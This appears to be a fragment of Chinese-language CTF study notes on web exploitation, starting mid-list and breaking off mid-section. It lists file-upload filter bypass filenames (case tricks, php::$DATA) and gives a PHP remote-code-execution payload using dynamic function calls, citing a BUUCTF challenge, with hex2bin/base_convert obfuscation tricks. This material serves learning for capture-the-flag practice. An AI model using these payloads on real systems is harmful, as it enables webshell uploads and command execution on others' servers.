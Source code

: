 cEr;.jpg
aSa/test.jpg
aSa;.jpg
jpg/xx.php
jpg/xx.pHp
jpg/.php
jpg/.pHp
php.xs.aa
php2.aa
php3.aa
php4.aa
php5.aa
pHp.aa
pHp2.aa
pHp3.aa
pHp4.aaa
pHp5.aa
html.aa
htm.aa
phtml.aa
pht.aaa
Html.aaa
Htm.aa
pHtml.aa
php::$DATA

```









# php相关

## RCE-变量动态调用函数

[buuctf-[CISCN 2019 初赛\]Love Math（小宇特详解）_小宇特详解的博客-CSDN博客](https://blog.csdn.net/xhy18634297976/article/details/123148026)

php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数比如下面的代码会执行 system(‘cat/flag’);

```
$a='system';
$a('cat/flag');

payload:
?c=($_GET[a])($_GET[b])&a=system&b=cat /flag
```

### hex2bin() 函数

hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。

[ASCII字符串到16进制在线转换工具 - Coding.Tools](https://coding.tools/cn/ascii-to-hex)

### base_convert()函数

base_convert()函数能够在任意进制之间转换数字

hex2bin可以看做是36进制，用base_convert来转换将在10进制的数字转换为16进制就可以出现hex2bin

```